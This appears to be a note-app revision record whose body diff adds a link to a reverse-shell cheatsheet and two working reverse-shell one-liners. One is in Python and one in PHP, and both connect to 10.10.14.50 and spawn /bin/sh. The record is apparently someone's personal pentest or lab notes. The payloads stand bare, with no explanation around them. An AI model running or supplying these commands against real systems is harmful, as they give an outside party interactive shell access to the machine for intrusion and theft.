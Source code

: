id: fca5a6e94f4747468efca23cd4c6e274
parent_id: 7fc5ec4193444336ab8e2859026a0403
item_type: 1
item_id: 5c960ae0679f45c084d870a7e8bd7850
item_updated_time: 1652840621286
title_diff: "[{\"diffs\":[[0,\"bash\"],[1,\"/python\"]],\"start1\":0,\"start2\":0,\"length1\":4,\"length2\":11}]"
body_diff: "[{\"diffs\":[[0,\"\\\n> ```\\\n\\\n\"],[1,\"[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](\"],[0,\"https://\"]],\"start1\":111,\"start2\":111,\"length1\":16,\"length2\":145},{\"diffs\":[[0,\"ell%20Cheatsheet.md#bash-tcp\"],[1,\")\\\n\\\n## Python\\\n\\\n> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\\\\_INET,socket.SOCK\\\\_STREAM);s.connect((\\\"10.10.14.50\\\",9696));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(\\\\[\\\"/bin/sh\\\",\\\"-i\\\"\\\\])'\\\n\\\n## PHP\\\n\\\nFor the interactive shell usage\\\n\\\n> php -r '$sock=fsockopen(\\\"10.10.14.50\\\",5001);exec(\\\"/bin/sh -i &lt;&3 &gt;&3 2>&3\\\");'\"]],\"start1\":354,\"start2\":354,\"length1\":28,\"length2\":398}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-18T02:30:48.259Z
created_time: 2022-05-18T02:30:48.259Z
type_: 13